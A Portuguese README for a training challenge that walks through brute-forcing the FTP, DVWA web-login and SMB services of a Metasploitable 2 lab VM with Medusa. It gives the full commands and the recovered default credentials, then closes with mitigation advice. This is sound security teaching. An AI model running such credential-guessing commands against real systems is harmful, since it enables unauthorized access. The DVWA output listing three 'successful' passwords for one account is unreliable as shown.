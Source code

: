 # Desafio DIO – Ataques de Força Bruta com Medusa

## Serviços Identificados no Metasploitable 2
  - FTP (porta 21)
  - SSH (porta 22)
  - HTTP - DVWA (porta 80)
  - SMB (portas 139/445)

## 1. Ataque ao Serviço FTP

### Comando:
medusa -h 192.168.56.101 -u msfadmin -P wordlist_ftp.txt -M ftp -t 4

### Resultado:

ACCOUNT FOUND: [ftp] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS]

Credenciais encontradas: msfadmin:msfadmin
Vulnerabilidade: Uso de credenciais padrão
Impacto: Permite acesso ao sistema via FTP com privilégios do usuário msfadmin

## Ataque ao Serviço HTTP (DVWA)

### Comando:
medusa -h 192.168.56.101 -u admin -P wordlist_dvwa.txt -M http -m FORM:dvwa_login -m DIR:/dvwa/login.php -m DENY-SIGNAL:"Login failed" -t 3

### Resultado:
ACCOUNT FOUND: [http] Host: 192.168.56.101 User: admin Password: password [SUCCESS]
ACCOUNT FOUND: [http] Host: 192.168.56.101 User: admin Password: admin [SUCCESS]
ACCOUNT FOUND: [http] Host: 192.168.56.101 User: admin Password: admin123 [SUCCESS]

Credenciais encontradas: admin:password
Vulnerabilidade: Senha padrão não alterada e fracas
Impacto: Acesso total ao painel da DVWA, comprometendo o ambiente web

## Ataque ao Serviço SMB

### Comando:
medusa -h 192.168.56.101 -U users.txt -P wordlist_smb.txt -M smbnt -t 2

### Resultado:
ACCOUNT FOUND: [smbnt] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS (ADMIN$ - Access Allowed)]

Credenciais encontradas: msfadmin:msfadmin
Vulnerabilidade: Conta SMB com senha padrão
Impacto: Possível acesso remoto e compartilhamento de arquivos administrativos

## Conclusão
Durante os testes de força bruta com o Medusa, foram identificadas diversas senhas fracas e credenciais padrão nos serviços FTP, HTTP (DVWA) e SMB do Metasploitable 2.
Essas falhas demonstram a importância de políticas de segurança de senhas, mudança de credenciais padrão e restrição de acessos remotos.

## Recomendações de Mitigações:

  - Alterar imediatamente senhas padrão.
  - Implementar autenticação multifator (MFA).
  - Utilizar listas de senhas seguras.
  - Limitar tentativas de login (bloqueio temporário).
  - Monitorar logs de autenticação suspeitos.
